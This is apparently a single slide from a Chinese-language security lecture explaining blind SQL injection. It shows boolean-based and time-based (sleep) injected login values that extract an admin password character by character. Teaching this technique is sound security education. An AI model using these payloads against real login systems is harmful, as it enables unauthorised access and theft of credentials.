

# Blind sql injection
有時候資料庫查詢不會顯⽰任何資料
例如：一般介面只會顯示登入成功或是失敗
透過 true/false 回傳去判斷
id = 'admin' and ascii(mid(password, 1, 1))>0 --		TRUE
id = 'admin' and ascii(mid(password, 1, 1))>100 --		FALSE
沒有回傳可以透過時間
id = 'admin' and if(ascii(mid(password,1,1))>0, sleep(5), 1)=1